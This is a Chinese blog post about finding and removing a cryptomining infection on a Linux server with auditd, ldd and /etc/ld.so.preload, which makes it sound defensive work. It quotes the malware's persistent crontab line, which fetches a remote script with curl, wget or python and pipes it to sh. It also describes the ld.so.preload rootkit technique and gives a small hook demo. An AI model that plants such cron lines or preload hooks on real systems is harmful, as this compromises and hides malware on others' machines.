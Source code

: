 ```yaml
---
layout: post
title: "服务器中挖矿病毒分析及移除"
date: 2021-09-16
comments: false
categories: 运维
---
```


近期服务器中了顽固病毒，花了不少时间，最终得意源码解决，这里分享下整个过程，便于为大家提供一定的参考。

### 1. 现象

定时任务有非法任务，如下

```
[root@iZ23kh0sxhxZ nexhome]# crontab -l
*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
```
而且编辑后又会被恢复

### 2. 排查过程

#### 2.1 找出定时任务文件位置

根据网上资料，寻找到以下几处cron文件位置

```
/var/spool/cron/root
/etc/cron.d/root
/var/spool/cron/crontabs/root
```

发现以下几个文件被不停的修改

#### 2.2 找出修改定时任务的进程

思路：寻找监听文件被修改的方式，大致有3中方式

```
方式1: lsof
方式2: inotify
方式3: audit
```
考虑到系统自带了audit，因此采用audit，相关命令如下：

```
启动服务
service auditd start

添加规则
auditctl -w /var/spool/cron/root -p wra

查看规则
auditctl -l

清除规则
auditctl -D

查看结果
ausearch -f /var/
```
通过以上，可以查看文件被修改的进程，如下是通过ausearch得到的结果，其中pid就是修改该文件的进程id

```
time->Thu Sep 16 16:55:49 2021
type=PATH msg=audit(1631782549.484:7): item=1 name="/var/spool/cron/root" inode=11796544 dev=ca:11 mode=0100644 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL
type=PATH msg=audit(1631782549.484:7): item=0 name="/var/spool/cron/" inode=11796506 dev=ca:11 mode=040700 ouid=0 ogid=0 rdev=00:00 nametype=PARENT
type=CWD msg=audit(1631782549.484:7):  cwd="/etc"
type=SYSCALL msg=audit(1631782549.484:7): arch=c000003e syscall=2 success=yes exit=3 a0=7fcf3c2f393b a1=242 a2=1b6 a3=0 items=2 ppid=2693 pid=3187 auid=501 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts0 ses=5 comm="ausearch" exe="/sbin/ausearch" key=(null)
```

#### 2.3 确认该进程是什么进程

通过ausearch可以得到进程id，但通过ps无法找到该进程，说明这个为临时进程，通过top观察发现这个就是执行auserch自己的进程号，而且在不执行命令时，是不会有人变更该文件；

于是可以初步断定，修改定时任务不是某个常驻进程定时触发的，而是由于bash 命令主动触发的。

#### 2.4 查找具体的命令

怀疑应该是bash被修改了，从其他可执行文件，还是一样结果，怀疑是动态库被修改，于是查看bash依赖的动态库

```
[root@iZ23kh0sxhxZ nexhome]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007ffc5b3be000)
	/usr/local/lib/libevent_core-0.12.so (0x00007fbdb8f8c000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fbdb8d7b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fbdb89e7000)
	/lib64/ld-linux-x86-64.so.2 (0x0000561db6313000)
```
对比了其他正常服务器发现并没有这个libevent_core-0.12.so动态库以来

vim打开/usr/local/lib/libevent_core-0.12.so发现如下一些特殊字符，于是可以断定这个是原因

```
cpu  0 0 3375 498153 97 0 10 0 0 0
cpu0 0 0 1699 249246 71 0 6 0 0 0
intr 0 28 0 0 0 378 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 16 0 4129 0 124 1 0 1251 0 3 0 6879 6680 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
ctxt 543672
btime 1544675938
processes 2774
procs_running 4
procs_blocked 0
softirq 188202 0 129718 1 457 0 0 1 35688 0 22337access__xstatw+/etc/cron.d/root*/15 * * * * root (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/root*/15 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/crontabs/root*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##racu_schvdsld.so.preloadlibevent_core-0.12.so/proc/stat/proc/net/tcp/proc/net/tcp6fopen64__lxstat__lxstat64openrmdir__xstat64unlinkunlinkatopendirreaddir/proc4f91a57bce./readdir64?????????????(K???H????pI??????????????????????}???0????XO?????????g?????????'??????0????X{???x?????d????????zRx
```

#### 2.5 移除动态库依赖

通过动态库配置文件，发现如下信息

```
[root@iZ23kh0sxhxZ etc]# cat /etc/ld.so.preload
/usr/local/lib/libevent_core-0.12.so
```
于是手动编辑移除，由于原来动态库已经加载，因此这里重新启动系统

#### 2.6 最终确认

服务器重启后，定时任务没有被修改了，可以确定病毒已被清除。同时确认了依赖已经没有libevent相关库依赖。

```
[root@iZ23kh0sxhxZ ~]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007fff01944000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fefd921b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fefd8e86000)
	/lib64/ld-linux-x86-64.so.2 (0x00005567870de000)
```


### 3 总结

自此，该病毒已被彻底移除，这里做一些总结，该病毒依附于命令，即你有敲命令，就会导致定时任务被修改，而我们排查又需要通过命令，因此比较难发现，借助了audit来一步步确定，最终找到是由于加载了黑客自己编写的动态库，从而进一步找到源头，并将病毒清理掉。

这里也简单描述下原理，通过/etc/ld.so.preload可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数。因此可以使用预加载实现hook功能。

```
#include <stdio.h>
#include <sys/socket.h>

__attribute__ ((visibility("default"))) int socket(int family, int type, int protocol) {
	printf("detect socket call\n");
	return -1;
}

__attribute__((constructor)) void main() {
	printf("module inject success\n");
}
```

编译成so，并执行

```
gcc hook.c --shared -fPIC -o hook.so
LD_PRELOAD=$PWD/hook.so ping 127.0.0.1
```

输出如下结果

```
module inject success
detect socket call
detect socket call
ping: socket: Success
```
